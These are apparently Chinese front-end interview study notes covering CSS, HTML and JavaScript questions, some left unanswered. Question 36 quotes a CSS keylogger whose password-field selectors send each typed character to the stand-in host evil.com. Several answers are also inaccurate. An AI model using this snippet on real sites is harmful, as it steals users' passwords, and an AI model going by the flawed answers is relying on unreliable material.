# 25、scroll-snap-align属性的应用场景是什么？

这个属性设置后，会一个块被滚了一部分中途松手了之后，页面自动滚回去或者滚到下一个块

使用：

ul {
  scroll-snap-type: y mandatory;
}

li {
  scroll-snap-align: start; // end center
}


# 26、如何用css实现把“我不爱996”变成“699爱不我”？

direction: rtl;
unicode-bidi:bidi-override;

# 27、举例说明你对指针事件（pointer-events）的理解

pointer-events css属性指定在什么情况下，某个特定的图形元素可以成为鼠标事件的target
当 pointer-events 为 none 时，比如 a 链接不再生效；

# 28、鼠标事件css的:hover和js的mouseover有什么区别？


    :hover为CSS伪类，mousehover为JS DOM事件。

    CSS只能改变元素样式，JS既可以改变元素样式又可以改变元素中的内容。

    :hover当鼠标移出后恢复之前的样式，mouseover需要结合mouseout才能恢复之前的样式

    同等效果下，从性能上讲，:hover优于mousehover

    水平有限只能想到这些，希望能抛砖引玉，向大牛们多多学习


# 29、使用css的attr()写一个类似a标签title的提示框

html

# 30、举例说明如何从html元素继承box-sizing？

*, *::before, *::after {
  box-sizing: inherit;
}

html {
  box-sizing: border-box;
}

# 31、异步加载CSS的方式有哪些？

旧：
js动态插入link标签

在link标签上设置media属性为低优先级的 print,文档渲染后改为screen

新:
<link rel="preload" href="cssfile.css" as="style" onload="this.rel='stylesheet'">
改rel值，只有谷歌完美兼容

# 32、css的加载会阻塞DOM树解析和渲染吗？为什么？

css加载不会阻止dom数的解析，但是会阻止dom树的渲染，因为css下载完成后解析成cssom与dom生成渲染数后，页面才会渲染，绘制出来

# 33、css的加载会阻塞js运行吗？为什么？

会阻塞js的运行，因为js可能会去获取或者改变元素样式，所以浏览器为了不重复渲染，等所有css加载渲染完成后再执行js

# 34、为了减小css文件的大小，怎么去除无用css呢？有哪些方法？

使用 purgeCss 插件进行清理

# 35、在一个项目里，你是如何组织(架构)css代码的？

todo

# 36、使用纯css能否监控到用户的一些信息？怎么实现？

可以，著名的css keylogger：

input[type="password"][value$="a"] {
  background-image: url("http://evil.com/api/a");
}

input[type="password"][value$="b"] {
  background-image: url("http://evil.com/api/b");
}

input[type="password"][value$="c"] {
  background-image: url("http://evil.com/api/c");
}

# 37、请使用css3实现图片的平滑转换

以全局监听的方式通过 a 标签的描点进行 view 动态切换页面，只要把 a 标签带有 id 的 href 属性的值指到锚点，用 CSS3 的动画进行切换页面.

# 38、使用css画个钟表的时间刻度

思路：定义一个钟表的大小位置，用absolute

从 1点到12点用 ul li，每个li用 nth-child 来控制位置，角度用transform，然后分钟的刻度也是照样子分别控制位置，要用48个li

# 39、ui设计中px、pt、ppi、dpi、dp、sp之间的关系？

px 电子屏幕上组成一幅图画或者照片的基本单元
pt 英寸
ppi 英寸像素数
dpi 每英寸多少点
dp 安卓开发用的长度单位
sp 安卓开发用的字体大小单位

# 40、举例说明shape-outside的属性的用途有哪些？

shape-outside 定义了一个可以是非矩形的形状，相邻的内联内容应围绕该形状进行包装 

shape-outside：circle() 属性可以实现文字圆形环绕图片效果

# 41、用css3画出一个立体魔方

todo

# 42、如何重写行内样式？方法有哪些（至少两种）？

1、！important
2、var divStyle = document.querySelector('#div').style // 修改属性

# 43、有哪些标签是不支持伪元素的？

伪元素有：

::after 
::before
::first-letter
::first-line

::selection
::backdrop

img input iframe 不支持这样用的，因为需要这些元素是可以插入内容的


# 44、请使用纯css实现波浪效果

todo

# 45、请问class与[class=xxx]的区别是什么？两者是否等价？

不等价
class是类选择器，可以作用于任何dom元素
[class=xxx]是属性选择器，只能作用于特定类型的dom元素

# 46、为什么说对opacity进行动画要比box-shadow进行动画性能更好呢？

opacity不会影响布局，也需要重绘

# 47、能不能使用纯css使你的浏览器卡死？怎么实现？

可以，用计算属性calc、变量

# 48、如何使用css实现鼠标跟随？

其实很多 CSS 效果，都离不开 障眼法 二字。要监测到当前鼠标处于何处，我们只需要在页面上铺满元素即可：

https://www.php.cn/css-tutorial-453627.html

# 49、你有使用过css的属性background-blend-mode吗？说说它的运用场景有哪些？

背景混合模式

可以是背景图片与背景图片的混合，

也可以是背景图片和背景色的之间的混合。

https://blog.csdn.net/dwb123456123456/article/details/84563367

# 50、用css3实现文字发光的效果

text-shadow：0 0 10px #fff,
0 0 20px #fff,
0 0 30px #fff,
0 0 40px #00a67c,

周级综合题目（50）

# 1、你所在的团队有规范吗？举例说明都定义了哪些规范？

1、命名使用驼峰命名法；
2、项目使用ts强语法编写；
3、代码风格使用eslint检测；
4、编写的纯函数使用函数式编程；
5、遥遥无期的单元测试。。。

# 2、请描述下null和undefined的区别是什么？这两者分别运用在什么场景？

null 是“空值”，表示某个对象/资源并不存在

undefined 是指一个属性或变量还未赋值。

# 3、CSS的伪类和伪对象有什么不同？

    伪类：我们常用的比如，hover，focus等，我认为伪类是为了弥补选择器的不足。还有伪类选择器，比如first-child,nth-child.
    伪元素 : ::before ::after 是为了创建一个dom元素，使用content属性指定要插入的内容。content必须有值（空值也行）。还有 伪元素选择器，比如 first-line first-letter

# 4、请描述下元素的href和src有什么区别？

1.概念不同
href用于在当前文档和引用资源之间确立联系
src用于将资源替换当前元素
2.解析方式不同
href解析时，会并行下载资源且不会停止当前文档处理
src解析时，会暂停当前文档处理

# 5、浏览器在什么情况下会出现“已拦截弹窗式窗口”？怎么解决？

已拦截弹窗式窗口出现的原因是你想打开一个页面，但是这个页面并不是通过你的点击事件实现，而是已其他方式出现的。
使用模拟点击事件，

<script>
    setTimeout(function() {
       window.open('https://www.baidu.com');
    }, 300);
</script>


<script>
    function opens() {
        window.open('https://www.baidu.com');
    }
    document.body.addEventListener('click',opens); // 主动点击不被拦截
   // 模拟点击被拦截
   setTimeout(function () {
        document.body.dispatchEvent(new Event('click'));
    }, 500);
</script>

# 6、解释下为什么{} + [] === 0为true？

那个 {} 是空语句块而非空对象，{} 认定是语法块， 这个放在前面，只有混淆作用，并不参与运算。

{} + [] === 0

+[] === 0

0 === 0 

true

# 7、移动端的布局用过媒体查询吗？写出例子看看

@media(min-width: 501px) and (max-width: 901px) {
	body {
		color: red;
	}
}

# 8、简要描述下什么是DNS？它有什么用？


Domain Name System 域名系统
它将域名映射到 IP 地址。

解析域名,可以用来将 好记的网址 解析为 不好记的 IP地址

# 9、js的函数有哪几种调用形式？

- 自调用 (function())();
- 直接调用 fn()
- 做为对象的属性调用 obj.fn()
- 使用构造函数调用
new fn()
- 使用call或apply调用
fn.call() || fn.apply()

fn(arg1, arg2, ...)
fn.call(thisArg, arg1, arg2, ...)
fn.apply(thisArg, [arg1, arg2, ...])

其中，call 和 apply 使得函数内的 this 被绑定到 thisArg 上。

# 10、写出div在不固定高度的情况下水平垂直居中的方法？

1、flex

 .tith1 {
    display: flex;
    justify-content: center;
    align-items: center;
    background: red;
  }

  2、table

  text-align: center;
  width: 100%;
  display: table;

  3、

父盒子相对定位
子盒子绝对定位:
  position:absolute;
left:50%;
top:50%;
transform:translate(-50%,-50%);


父盒子相对定位，子盒子绝对定位和margin
position:absolute;
left:0;
top:0;
right:0;
bottom:0;
margin:auto;

# 11、有使用过svg吗？请用svg画一个圆

<svg width="50" height="50">
    <circle cx="25" cy="25" r="10" fill="black" />
</svg>

# 12、说说你对emoji表情的理解，前端如何处理emoji表情？它的运用场景有哪些？

说一个使用emoji遇到的问题吧，如果前端使用emoji保存入库，服务器使用mysql的情况下需要设置对应的字符集为【utf8mb4】支持该表情 。


# 13、用js写出死循环的方法有哪些？

无结束条件
递归


while

while (true) {

}

for

for (;;) {

}

# 14、为什么会出现浮动？在什么时候需要清除浮动呢？

1.为了实现文字环绕图片效果
2.父容器的高度塌陷时候,需要清除浮动

# 15、使用HTML5需要遵守哪些设计原则？

避免不必要的复杂性

支持已有内容

解决现实的问题

内容模型

平稳退化

# 16、你知道什么是图片防盗链吗？防盗链怎么实现呢？说说你的方法

盗链 是指在自己的页面上展示一些并不在自己服务器上的内容。通常的做法是通过技术手段获得它人服务器上的资源地址，绕过别人的资源展示页面，直接在自己的页面上向最终用户提供此内容。

防盗链 就是防止盗链。

# 17、分别写出数组的交集、并集、差集、补集这四个方法

const intersect = (a, b) => a.filter(i => b.includes(i)) // 交
const exclude = (a, b) => a.filter(i => !b.includes(i)) // 差
const union = (a, b) => exclude(a, b).concat(b) // 并
const unionAll = (a, b) => a.concat(b) // 重复并
const xor = (a, b) => exclude(a, b).concat(exclude(b, a)) // 补

# 18、当一个元素被设置为浮动后，它的display值变为什么呢？

一个元素被设为绝对定位或者浮动后，其display计算值就变为了block，尽管其表现形式和inline-block类似——包裹内部元素且不超出包含块的特性。按照如下方式在控制台尝试可验证：

var span = document.createElement('span');
document.body.appendChild(span);
console.log('1.' + window.getComputedStyle(span).display);
span.style.float = 'left';
console.log('2.' + window.getComputedStyle(span).display);
输出：
1.inline
2.block

# 19、HTML5标准提供了哪些新的API？你有用过哪些？


    两个选择器API
        document.querySelector()
        document.querySelectAll()
    地理定位API
        getCurrrentPosition()
    多媒体API
        <video></video>
        <audio></audio>
    拖放

<div ondrop="drop(event)" ondragover="allowDrop(event)"></div>
<div draggable="true" ondragstart="drag(event)"></div>

    文件
    window.requestFileSystem()
    XHR2

var xhr = new XMLHttpRequest();
xhr.open("POST", "@Url.Action("Upload")")

    本地存储API
        localStorage
        sessionStorage

    canvas

<canvas id="myCanvas" width="200" height="100">

    svg

<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
   <circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
</svg>

# 20、说说你对Git的branch, diff, merge的理解？

branch git分支相关操作，可用于查看、新建、删除分支以及分支的重命名操作
diff 用于对比两次修改的差异 可以通过自定义参数来指定对比哪两次修改
merge 用于合并分支或者某次提交 一般用于将分支或修改的内容合并到master上
三者都是git的基本操作指令

# 21、要实现一个js的持续动画，你有什么比较好的方法？

requestAnimationFrame，浏览器专门为js动画提供的API。

# 22、行内css和important哪个优先级高？

!important 

# 23、写出以下几个HTML标签：字体、居中、文字加粗、下标

现在这些标签都有相应的CSS属性进行设置了吧
字体：font
居中：text-align: center
文字加粗：font-weight: bold
下标：vertical-align:sub

# 24、你认为前端工程师应该分为哪些级别呢？说说你的看法

切图仔，页面仔，X架构,全栈，CTO

# 25、写例子说明如何给li绑定事件（ul下有1000+个li）？

$el.addeventlistener('click', function(e) {
	console.log(e.target)
})

# 26、如何更改placeholder的字体颜色和大小？

input::-webkit-input-placeholder {
      color: red;
    }

# 27、Doctype有什么作用？你知道有多少种Doctype文档类型吗？

用于标识该文件编写是基于哪个HTML版本的语法。

<-- html5-->
<!DOCTYPE html>

<-- html4-->
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Frameset//EN" 
"http://www.w3.org/TR/html4/frameset.dtd">


DOCTYPE声明指定了浏览器对于HTML文档解析的类型；

    HTML5的DOCTYPE只有一种：

<!DOCTYPE html>

    HTML4.01的DOCTYPE有三种：Strict，Transitional和Frameset；

# 28、不查资料，你会手写正则吗？

https://github.com/haizlin/fe-interview/issues/974


    ^：匹配以...开头的的字符串
    $：匹配以...结尾的的字符串
    ^和$同时使用：精确匹配
    []：匹配字符组的一个列表

# 29、说说你理解的同步和异步的区别是什么？

同步就是上一个任务结束下一个任务再开始，比如alert弹窗，你不点击确定他就会阻塞后边代码的执行；
异步就是按顺序开始（不可能同时开始）但是不一定按顺序结束，比如图片的加载就是走的异步。

# 30、移动端微信页面有哪些兼容性问题及解决方案是什么？

1.rem方案通过 reset js 进行适配
2.vw 方案 搭配px to viewport进行适配

# 31、列举出你最常用的meta标签的写法和作用 

背下来：https://github.com/haizlin/fe-interview/issues/971

# 32、你有用过单例模式吗？主要运用场景有哪些？

todo

# 33、不用第三方库，说说纯js怎么实现读取和导出excel？

 let blob = new Blob([res.data],{type: "application/vnd.openxmlformats-officedocument.spreadsheetml.sheet"});
            let a = document.createElement('a')
            a.download = 'XXX.xlsx'
            a.href =URL.createObjectURL(blob) 
            document.body.appendChild(a)
            a.click()

# 34、你对视网膜(Retina)分辨率有了解吗？有没有在实际中使用过？

Retina分辨率指的是屏幕的物理分辨率达到了使得人眼难以看到单个物理像素；

具体应用应该就是dpr > 1的屏幕适配，需要根据不同dpr给出合适尺寸的图片；

设备像素比（dpr） = 设备像素（分辨率）/ 设备独立像素（屏幕尺寸）

# 35、HTML5的页面可见性（Page Visibility）有哪些应用场景？

document.visibilityState属性

产生的原因:

    不能触发unload,pageHide事件的时候，比如：
    手机端切换到最近任务界面,点击另一个APP,
    手机端直接按home键返回主屏幕;
    PC端最小化,



    停止与服务器的轮询
    停止页面音视频


属性值：字符串

  hidden：页面彻底不可见。
  visible：页面至少一部分可见。

触发的事件：

 document.onvisibilitychange
 document.addEventListener('visibilitychange',  ()=> {
  // 用户当前页面不可见（离开或者后端或者最小化，或者页签切换）
  if (document.visibilityState === 'hidden') {
    document.title = '页面不可见';
  }

  // 用户打开或回到页面
  if (document.visibilityState === 'visible') {
    document.title = '页面可见';
  }
});

页面卸载：
	
    页面可见时，用户强制关闭 Tab 页。
    页面可见时，（tab页签切换）。
    页面不可见时，用户或系统关闭浏览器窗口。

https://github.com/haizlin/fe-interview/issues/975


# 36、你有画过流程图吗？用过什么软件？开始和判定分别用什么图形表示？

processon。  开始使用圆角矩形，判定使用菱形。

# 37、分别封装精确运算的加减乘除四个方法

这个是真的难

https://github.com/haizlin/fe-interview/issues/981

# 38、如何让大小不同的图片等比缩放不变形显示在固定大小的div里？写个例子



    图片等比缩放 img{ object-fit: cover/contain;}

    div宽高比例固定，跟随屏幕变化而变化，利用padding垂直方向的属性来实现


# 39、 HTML5怎么为输入框添加语音输入的功能呢？

<input type=”text” speech x-webkit-speech />

非h5规范，服务需要走google的服务器

# 40、你有自己买过服务器和域名用来搭建博客或者网站吗？

# 40、不依赖第三方库，说下如何使用js读取pdf？

这个题目有两种解读：

    前端不使用第三方库，如何将 PDF 文件显示在网页上。
        现代桌面浏览器都自带 PDF viewer 插件的，用 <iframe src="file.pdf"> 就能显示。（embed应该也可以）

    前端不使用第三方库，如何读取并解析 PDF 格式，利用 HTML 技术渲染 PDF 文件内容？
        这个就是 pdf.js 干的事情。思路是使用 FileReader API 读取文件二进制内容，根据 PDF 文件规范解析内容（PDF 是开源格式），根据 PDF 文件描述的文档内容和布局，用 canvas 或者 DOM 展现出来。内嵌的 font 或图片可以提取二进制然后用 blob URL 搞定，难点是如何用 DOM 实现 PDF 格式描述的布局 (不清楚 PDF 是如何描述布局的)。

# 41、说说你对前端二倍图的理解？移动端使用二倍图比一倍图有什么好处？

二倍图是指单位面积下设备像素与css像素个数之比为 4 的位图。

移动端使用二倍图可以在Retina屏幕下保真展示。

# 42、说说你对accesskey的理解，举例说明它有什么运用场景？

制定快捷键触发对元素绑定的事件

# 43、进程与线程有什么区别？JS的单线程带来哪些好处？

一个程序必定包含>=1个进程，
一个进程必定包含>=1个线程，
进程之间不共享内存，每多一个进程就要多分配一定的内存。
多个线程共享内存，因此多线程可以提高程序的并发性。

JS单线程带来的好处：

JS主要是面向浏览器的，因此是和用户实时交互的，如果多线程执行的话，你无法确定同时开始的任务哪个会先结束，以网页加载为例，可能导致网页HTML结构已经加载好，但是CSS样式还未加载完成，导致用户浏览体验差。或者两个线程同时对一个DOM结点进行修改和删除操作，则无法判断以哪个线程为准。

# 44、准确说出'1,2,3,4'.split()的结果是什么（包括类型和值）？

运行结果为 ["1,2,3,4"]，是一个长度为1的Array，元素类型为String。
关于split函数，其可以接受两个参数，第一个参数是字符串或正则表达式，从该参数指定的地方分割 stringObject；但是第二个参数并不是说限制分割次数，而是限制返回Array的最大长度，举个例子：

let a = '1,2,3,4,5,6';
a.split(',', 3);  // 返回的结果为 ["1", "2", "3"]
a.split(',', 5);  // 返回的结果为 ["1", "2", "3", "4", "5"]

# 45、你是如何规划响应式布局的？

从项目角度来讲，
PC 和 Mobile 是一个项目还是两个项目；

从方法流派来讲，
有栅栏布局，固定 viewport，使用 rem/pt/vw 单位，使用定位百分比，修改为 rem/vw 单位，五种；

从文件结构来讲，
是独立为响应布局专用 css 文件，还是跟随组件一起；

其他细节，
用 flex-grow 的地方，用 % 的地方，用 em 的地方

# 46、行内元素、块级元素、空(void)元素分别有哪些？

行内元素

a, b, input, span, label, button, textarea...
块级元素

div, form, table, h1...h6, p
空元素

img, input, hr, br, meta, source,track

# 47、请列举出多种减少页面加载时间的方法 


缓存利用： 缓存 Ajax，使用 CDN、外部 JavaScript 和 css 文件缓存，添加 Expires 头，在服务器端配置 Etag，减少 DNS 查找等。
• 请求数量．合并样式和脚本，使用 css 图片精灵，初始首屏之外的图片资源按需加载，静态资源延迟加载。
• 请求带宽：压缩文件，开启 GZIP 。
• css 代码：避免使用 css 表达式、高级选择器、通配选择器 。
• JavaScript 代码：用散列表来优化查找，少用全局变量，用 innerHTML 代替 DOM 操作，减少 DOM 操作次数，优化 JavaScript 性能，用 setTimeout 避免页面失去响应，缓 存 DOM 节点查找的结果，避免使用 with (with 会创建自己的作用域， 增加作用域链的 长度），多个变量声明合并。
• HTML 代码：避免图片和 iFrame 等 src 属性为空 。 src 属性为空，会重新加载当前页面 ， 影响速度和效率 ， 尽量避免在 HTML 标签中写 Style 属性。


https://github.com/haizlin/fe-interview/issues/995


# 48、你是如何更好地处理Async/Await的异常的？

https://github.com/haizlin/fe-interview/issues/994

# 49、说说你对低版本IE的盒子模型的理解

IE盒子模型的宽高为content、padding、border之和

box-sizing: content-box; => W3C盒子宽高为content的宽高； 

box-sizing: border-box; => IE盒子宽高

# 50、请描述一下cookies、sessionStorage和localStorage的区别？

    cookie：存放于浏览器中的数据；常用于会话管理，用户设置，行为跟踪等。在js中可以通过document.cookie来进行设置，获取或删除等操作；不过cookie有许多明显的缺点：
        cookie的大小限制在4KB；
        cookie会伴随http请求一起被发送，会浪费网络带宽
        cookie的正确操作比较困难
    webStorage：H5新增的API，数据存放于客户端本地内存中；sessionStorage和localStorage操作一致，而sessionStorage的有效期限为一次session会话（即一个tab页从打开到关闭之间的时间段），localStorage是没有失效时间的（即永久保存，删除需要手动处理）；














